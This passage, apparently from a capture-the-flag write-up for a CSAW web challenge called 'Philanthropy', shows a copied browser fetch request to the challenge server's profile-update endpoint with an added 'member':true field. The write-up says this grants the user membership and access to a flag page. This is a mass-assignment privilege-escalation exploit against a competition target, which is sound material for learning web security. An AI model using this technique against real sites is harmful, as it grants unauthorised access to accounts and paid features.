 ![Philanthropy Image 5](images/philanthropy5.png)

We can use JavaScript to send this request with `fetch`!

```js
fetch("http://web.csaw.io:14180/identity/update", {
  "headers": {
    "accept": "application/json, text/plain, */*",
    "accept-language": "en-US,en;q=0.9",
    "content-type": "application/json"
  },
  "referrer": "http://web.csaw.io:14180/web/profile",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "{\"username\":\"test@uncc.edu\",\"first_name\":\"TestUser\",\"last_name\":\"TestTest\", \"member\":true}",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```

This is pretty easy to do since we can just copy the result as fetch and add `\"member\":true` to make ourselves a member.

This update doesn't show immediately, but if we clear cookies and refresh, we can see that we are now a member and have access to even more, including a flag page!

![Philanthropy Image 6](images/philanthropy6.png)
